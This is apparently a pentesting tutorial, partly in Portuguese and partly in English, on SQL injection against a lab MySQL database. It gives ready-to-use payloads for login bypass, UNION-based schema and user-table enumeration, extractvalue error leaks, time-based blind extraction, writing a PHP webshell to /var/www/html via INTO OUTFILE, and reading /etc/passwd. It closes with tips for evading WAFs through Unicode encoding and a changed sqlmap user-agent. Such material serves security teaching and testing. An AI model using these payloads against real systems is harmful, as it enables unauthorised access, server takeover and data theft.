









# SQL Injection

O SQL injection, é uma das técnicas de vulnerabilidades web mais conhecida. Ela consiste em basicamente passar uma query SQL em um input que se o banco de dados não tiver um tratamento correto dessa entrada, pode acabar resultado em um vetor de ataque caso essa query seja maliciosa.

## Basic Bypass Authentication

Vamos supor que o backend trata a entrada de um login da seguinte forma abaixo.

```php
$user = $_POST['user'];
$password = $_POST['password'];

$query = "SELECT * FROM users WHERE user = '$user' AND pass '$password'"; 
```

O problema é que a query que irá para o banco de dados não está sendo filtrada corretamente, passando os parâmetros exatamente como o usuário digita e isso pode ocasionar a vulnerabilidade.

Vamos então utilizar o payload mais básico para explorar essa falha. A ideia a seguir, é utilizar o campo do usuário para bypassar a consulta. Primeiro temos que fechar as aspas simples e utilizar uma condição de **ou** para que assim a query retorne **true** e por fim comentar o resto para que seja ignorado, com isso irá trazer os resultados no banco de dados. O payload final fica da seguinte forma: `' or 1=1 #` ou `' or 1=1 --`. (_o comentário # e -- varia de acordo com o banco de dados_.)

Com isso, no banco de dados vai retornar o primeiro usuário que a consulta buscar, autenticando assim na aplicação com este usuário.

```sql
SELECT * FROM users WHERE user = '' or 1=1 -- ' AND pass 'password123" 
```

## Error-based SQL Injection

Esse é um tipo de injeção que retorna um erro para o usuário. Para triggar este erro, podemos passar, por exemplo, uma aspas simples para ver o que a aplicação retorna (essa aspas simples irá fechar a consulta no parâmetro que for passado). Se for vulnerável, geralmente provavelmente irá retornar uma mensagem de erro do tipo `Search SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax;`.

Com isso, podemos utilizar o `union` do SQL para unir uma nova consulta, e passar um %23 que significa o caractere # encodado, já que estamos enviando essas informações pela url (irá comentar o resto da query que estiver no banco). Além do **"**#", poderia ser passado também um ponto e vírgula ou uma aspas simples, depende de como a aplicação foi feita.

```
' or 1=1 union select 1; #
```

<div data-full-width="false"><figure><figcaption></figcaption></figure></div>

Assim, conseguimos descobrir a quantidade de colunas que possui, podemos tentar ir aumentando até não retornar nenhum erro.

Nesse caso, podemos descobrir que a quantidade de colunas na tabela de produtos são no total 6. Podemos perceber também que é refletido os valores que inserimos sendo criado uma nova visualização na consulta.

<figure><figcaption></figcaption></figure>

A consulta final ficará assim, sendo completamente correta e com isso retorna as informações.

```sql
SELECT * FROM products WHERE name like '%' or 1=1 union select 1, 2, 3, 4, 5, 6; #%'
```

<figure><figcaption></figcaption></figure>

Agora que conseguimos descobrir corretamente a quantidade de colunas e fazer a consulta funcionar como queríamos, podemos tirar vantagem disso para buscar informações do banco de dados, podemos usar funções do MySQL (banco de dados utilizado) como `user()`, `database()`, `version()` entre outras.

<figure><figcaption></figcaption></figure>

Podemos agora buscar na tabela `information_schema` pela tabela que descobrirmos anteriormente.

```sql
' union select 1, table_name, 3, 4, 5, 6 from information_schema.tables WHERE TABLE_SCHEMA="lab"; #
```

<figure><figcaption></figcaption></figure>

Uma vez que descobrimos o nome das tabelas, podemos ver que existe a tabela `users`. Com isso, nós conseguimos descobrir as colunas:

```sql
' union select 1, column_name, 3, 4, 5, 6 from information_schema.columns where TABLE_SCHEMA="lab" and TABLE_NAME="users"; #
```

<figure><figcaption></figcaption></figure>

Agora que já sabemos quais os nome das colunas, podemos fazer a busca diretamente na tabela de `users`.

<figure><figcaption></figcaption></figure>

Pronto! Dessa forma que conseguimos explorar o Error-based SQL Injection.

### MySQL Error-Based SQL Injection Via ExtractValue Function

This is a specific attack technique that uses MySQL’s `extractvalue` function to access sensitive data from the database. ExtractValue is a MySQL function commonly used to extract data from XML documents. It takes two arguments: an XML document and an XPath expression. The function returns the value specified by the XPath query within the XML document.

Attackers can exploit this vulnerability by crafting malicious XPath expressions that, when processed by the `extractvalue` function, trigger an error and leak information about the database. Let's take a look how we can extract the database name:

```
extractvalue("something",concat(0x0a, database())); #
```

This payload injects the `database()` system variable into the XPath expression, causing MySQL to generate an error that reveals the database name.

<figure><figcaption></figcaption></figure>

We can also extract the table name from `information_schema`:

```
' and extractvalue("something",concat(0x0a, (select table_name from information_schema.tables WHERE TABLE_SCHEMA='lab' limit 0,1))); #
```

<figure><figcaption></figcaption></figure>

We can take a look at the database to see what the query it will look like:

<figure><figcaption></figcaption></figure>

\## SQL Injection Time Based Blind

Blind SQL injection occurs when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors. Many techniques such as UNION attacks are not effective with blind SQL injection vulnerabilities. This is because they rely on being able to see the results of the injected query within the application's responses. It is still possible to exploit blind SQL injection to access unauthorized data, but different techniques must be used. To exploit it we can use `substring` function to test each character and check it that query returns true (it will wait for 3 seconds), if true, we can confirm the first character and we will do with the next one and so on.

```
' or 1=1 union select 1, 2, if(substring((select database()), 1, 1)="l", sleep(3), NULL), 4, 5, 6; #

' or 1=1 union select 1, 2, if(substring((select database()), 2, 1)="a", sleep(3), NULL), 4, 5, 6; #

' or 1=1 union select 1, 2, if(substring((select database()), 3, 1)="b", sleep(3), NULL), 4, 5, 6; #
```

## Webshell

Quando encontramos uma falha de SQL Injection, também conseguimos gravar uma webshell dentro do servidor e ganhar um acesso.

```
' or 1=1 union select 1, 2, "<?php system($_GET['cmd']); ?>", 4, 5, 6 into outfile "/var/www/html/cmd.php"; #
```

## Reading file

```
' or 1=1 union select 1, 2, LOAD_FILE('/etc/passwd'), 4, 5, 6; #
```

## Bypass methods

### Unicode

Use Unicode to encode the payload (if the application is using JSON to encode data). The following example shows how it works:

```
<?php

$data = ["name" => "João", "age" => 20];

print_r(json_encode($data));
```

The response will be:

```
$ php json.php

{"name":"Jo\u00e3o","age":20}
```

We can encode our payload, for example, `' union select 1,2, database(), 4, 5, 6; #` to Unicode.

```
\u0027\u0020\u0075\u006e\u0069\u006f\u006e\u0020\u0073\u0065\u006c\u0065\u0063\u0074\u0020\u0031\u002c\u0032\u002c\u0020\u0064\u0061\u0074\u0061\u0062\u0061\u0073\u0065\u0028\u0029\u002c\u0020\u0034\u002c\u0020\u0035\u002c\u0020\u0036\u003b\u0020\u0023
```

Some WAFs may block when we use `union select` or something similar, so by using Unicode we can bypass that filter.

### User-Agent

When we use a tool like sqlmap, by default it uses its own user-agent. It's important to change this because there are WAF/IPS that block user-agent used by these tools.
